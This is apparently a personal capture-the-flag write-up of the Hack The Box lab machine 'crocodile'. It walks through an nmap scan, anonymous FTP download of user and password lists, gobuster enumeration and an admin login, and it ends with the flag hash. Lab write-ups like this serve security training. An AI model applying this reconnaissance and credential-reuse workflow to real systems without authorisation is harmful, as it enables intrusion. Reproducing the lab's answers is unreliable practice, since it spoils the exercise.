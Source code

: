 ## crocodile
## Very Easy


## Start (04Sept2023)

- Nmap:

  ```bash
  nmap -sV -sC -oN crocodile.nmap crocodile.htb


  Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-04 16:26 EDT
  Nmap scan report for crocodile.htb (10.129.16.20)
  Host is up (0.17s latency).
  Not shown: 998 closed tcp ports (conn-refused)
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst:
  |   STAT:
  | FTP server status:
  |      Connected to ::ffff:10.10.16.2
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 2
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
  |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
  80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  |_http-title: Smash - Bootstrap Business Template
  Service Info: OS: Unix

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 37.20 seconds


  ```

- Okay looks like an open ftp server and an apache web server. I can image we will download a password file from ftp then use it to login via web app

- Getting into FTP and downloading files:

  ```bash
  ftp anonymous@crocodile.htb


  Connected to crocodile.htb.
  220 (vsFTPd 3.0.3)
  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> ls
  229 Entering Extended Passive Mode (|||48518|)
  150 Here comes the directory listing.
  -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
  -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
  226 Directory send OK.
  ftp> mget *
  mget allowed.userlist [anpqy?]? y
  229 Entering Extended Passive Mode (|||48945|)
  150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
  100% |****************************************************************************************************************************************************************************************|    33        0.36 KiB/s    00:00 ETA
  226 Transfer complete.
  33 bytes received in 00:00 (0.07 KiB/s)
  mget allowed.userlist.passwd [anpqy?]? y
  229 Entering Extended Passive Mode (|||48675|)
  150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
  100% |****************************************************************************************************************************************************************************************|    62        0.68 KiB/s    00:00 ETA
  226 Transfer complete.
  62 bytes received in 00:00 (0.14 KiB/s)

  ```

- from the files, it looks like I have a user list with passwords, how nice...

```bash

  cat allowed.userlist

  aron
  pwnmeow
  egotisticalsw
  admin

  cat allowed.userlist.passwd

  root
  Supersecretpassword1
  @BaASD&9032123sADS
  rKXM59ESxesUFHAd

```

- Now login to website and get my flag!
- ![](pics/20230904133337.png)
- where is the place to login???, no `http://crocodile.htb/admin`, so where is the login?
- Looks like this was prebuilt stuff:
  ```

  Designed by UIdeck and Built-with Ayro UI

  ```
- Maybe I can find a github or something to get file structure of web apps

- Did not find anything with 5 min check
- Trying gobuster
```bash

  gobuster dir -u http://crocodile.htb  -x .php,.txt,.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt


  ===============================================================
  Gobuster v3.5
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://crocodile.htb
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.5
  [+] Extensions:              php,txt,html
  [+] Timeout:                 10s
  ===============================================================
  2023/09/04 16:44:03 Starting gobuster in directory enumeration mode
  ===============================================================
  /.php                 (Status: 403) [Size: 278]
  /.html                (Status: 403) [Size: 278]
  /index.html           (Status: 200) [Size: 58565]
  /login.php            (Status: 200) [Size: 1577]
  /assets               (Status: 301) [Size: 315] [--> http://crocodile.htb/assets/]

```

- I got a "login.php", so trying the passwords to login... `admin:rKXM59ESxesUFHAd` worked and here is my flag:
- ![](pics/20230904134700.png)
- ![](pics/20230904134629.png)


## Root.txt: c7110277ac44d78b6a9fff2232434d16